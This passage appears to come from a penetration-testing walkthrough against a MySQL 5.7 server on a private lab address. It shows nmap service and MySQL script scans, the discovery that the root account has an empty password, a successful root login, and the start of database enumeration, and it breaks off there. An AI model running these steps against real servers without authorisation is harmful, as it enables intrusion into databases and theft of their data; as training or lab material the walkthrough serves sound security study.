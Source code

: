 ```bash
Host is up (0.00023s latency).
PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.7.40-0ubuntu0.18.04.1

# 🎯 Key Intelligence:
# - MySQL service confirmed on port 3306
# - Version: MySQL 5.7.40
# - OS: Ubuntu 18.04
# - Service is accessible from external networks
```

#### **Phase 2: MySQL Service Enumeration**
```bash
# Step 3: Advanced MySQL fingerprinting with Nmap scripts
nmap --script mysql-info,mysql-empty-password,mysql-users -p 3306 192.168.1.100

# Script execution results:
PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-info:
|   Protocol: 10
|   Version: 5.7.40-0ubuntu0.18.04.1
|   Thread ID: 12
|   Capabilities flags: 65535
|   Some Capabilities: SupportsLoadDataLocal, LongColumnFlag, Support41Auth
|   Status: Autocommit
|   Salt: h7,L(jC@S2K{;dRks7\n
| mysql-empty-password:
|   root account has empty password
|_  
| mysql-users:
|   root
|   mysql.session
|   mysql.sys
|   debian-sys-maint

# 🚨 Critical Security Findings:
# ✅ MySQL root account has empty password
# ✅ Default MySQL system accounts present
# ✅ Service accepts remote connections
```

#### **Phase 3: Authentication Testing and Access**
```bash
# Step 4: Exploit empty root password
mysql -h 192.168.1.100 -u root -p

# Successful authentication attempt:
Enter password: [Press Enter for empty password]
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 15
Server version: 5.7.40-0ubuntu0.18.04.1 (Ubuntu)

# 🎉 Authentication Success:
# ✅ Root access gained with empty password
# ✅ Full administrative privileges obtained
# ✅ Database server compromise achieved

# Step 5: Basic system and database enumeration
mysql> SELECT VERSION();
+-------------------------+
| VERSION()               |
+-------------------------+
| 5.7.40-0ubuntu0.18.04.1|
```